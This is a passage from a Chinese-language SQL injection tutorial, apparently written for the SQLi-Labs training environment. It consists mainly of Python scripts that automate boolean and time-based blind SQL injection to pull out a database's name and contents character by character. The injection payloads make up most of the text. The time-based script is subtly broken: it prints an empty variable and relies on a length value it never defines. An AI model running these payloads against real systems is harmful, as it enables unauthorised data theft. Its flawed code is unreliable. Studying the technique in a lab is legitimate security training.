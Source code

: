 ```python
databaseNameLength = getBinarySearchResult(
    URL_PREFIX + "?id=1' and length(database())>{} --+",
    [1, MAX_FILED_LENGTH],
    "You are in..........."
)
print("数据库名的长度为{}位".format(databaseNameLength))

databaseName = ""
for i in range(1, databaseNameLength+1):
    databaseName += chr(getBinarySearchResult(
        URL_PREFIX + "?id=1' and ascii(substr((任意只有一行的SELECT子句)," + str(i) + ",1)) > {} --+",
        [0, 128],
        "You are in..........."
    ))
    print(databaseName)
```

### §3.3.2 时间盲注（Time Based）

如果成功与失败均无回显，并且查询成功/失败的特征没有任何差别，可以考虑使用时间盲注。

```python
import requests
import time

MAX_FILED_LENGTH = 40
URL_PREFIX = "http://localhost/SQLi-Labs/Less-8/"
SLEEP_TIME = 0.5 # 根据实际网络环境适当调大


def getBinarySearchResultByTime(url: str, paramRange: list[int], sleepTime: float)->int:
    """
        url : 形如...>{}的链接
        paramRange : [参数的最小值,参数的最大值]
        sleepTime : 成功时的睡眠时间
    """
    while paramRange[0] != paramRange[1]:
        tempParam = sum(paramRange) // 2
        startTime = time.perf_counter()
        result = requests.get(url.format(tempParam)).text
        endTime = time.perf_counter()
        if(endTime-startTime>sleepTime):
            paramRange[0] = tempParam + 1
        else:
            paramRange[1] = tempParam
    return paramRange[0]

data = ""
for i in range(1, databaseNameLength+1):
    databaseName += chr(getBinarySearchResultByTime(
        URL_PREFIX + "?id=1' and if(ascii(substr((SELECT语句)," + str(i) + ",1)) > {},sleep("+str(SLEEP_TIME)+"),1) --+",
        [0, 128],
        SLEEP_TIME
    ))
    print(data)
```
